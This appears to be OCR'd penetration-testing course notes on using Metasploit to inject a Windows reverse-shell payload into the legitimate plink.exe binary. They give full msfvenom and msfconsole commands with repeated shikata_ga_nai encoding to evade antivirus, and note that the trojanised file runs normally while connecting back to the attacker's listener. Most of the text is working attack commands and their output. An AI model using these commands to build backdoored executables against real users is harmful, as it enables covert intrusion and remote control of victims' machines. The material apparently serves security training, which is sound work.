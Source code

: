  
• Another useful feature of Metasploit is the ability to inject a payload into an existing PE file.
 
 
• which may further reduce the chances of AV detection
 
• The injection is done with the -x flag, specifying the file to inject into.


kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_re
verse_msf_encoded_embedded.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai succeeded with size 432 (iteration=3)
x86/shikata_ga_nai succeeded with size 459 (iteration=4)
x86/shikata_ga_nai succeeded with size 486 (iteration=5)
x86/shikata_ga_nai succeeded with size 513 (iteration=6)
x86/shikata_ga_nai succeeded with size 540 (iteration=7)
x86/shikata_ga_nai succeeded with size 567 (iteration=8)
x86/shikata_ga_nai chosen with final size 567
Payload size: 567 bytes
Final size of exe file: 311296 bytes
Saved as: shell_reverse_msf_encoded_embedded.exe

• These payloads can be used as part of a client side attack, as a backdoor, or stand-alone as an easy method to get a payload from one machine to another.

• unsuspecting user executes the binary with our injected payload, it will operate normally from the user’s perspective.

•  Behind the scenes however, the injected payload will attempt to connect back to our awaiting listener.


• A little known secret is that this process can also be accomplished from within msfconsole withthe generate command. 

• For example, we can do the following to recreate the previous msfvenomexample:

msf5 > use payload/windows/shell_reverse_tcp

msf5 payload(windows/shell_reverse_tcp) > set LHOST 10.11.0.4

LHOST => 10.11.0.4

msf5 payload(windows/shell_reverse_tcp) > set LPORT 443

LPORT => 443

msf5 payload(windows/shell_reverse_tcp) > generate -f exe -e x86/shikata_ga_nai -i 9 
-x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedde
d.exe

